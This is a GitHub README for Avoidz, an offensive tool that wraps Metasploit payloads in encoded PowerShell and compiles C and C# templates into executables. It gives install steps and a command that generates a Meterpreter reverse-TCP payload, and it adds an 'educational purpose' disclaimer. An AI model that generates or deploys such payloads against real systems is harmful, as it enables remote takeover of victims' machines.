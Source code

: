 ## Avoidz v 1.0 
    Author: Mascerano Bachir [ dev-labs ]

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 
 
## Screenshot:
![pic1](http://i.imgur.com/v3Jwj5g.png)

![pic2](http://i.imgur.com/L6GCvpJ.png)

<br /><br />

## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permitions
         cd avoidz
         chmod +x setup.sh

    3°- Run setup script
         ./setup.sh == to check dependecies

    4°- Run avoidz tool == example
     ./avoidz.rb == help command
	 ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f temp1 == generate

## video tutorial: 
Avoidz v 1.0 temp1 generate : https://www.youtube.com/watch?v=ZilOByKkrVk
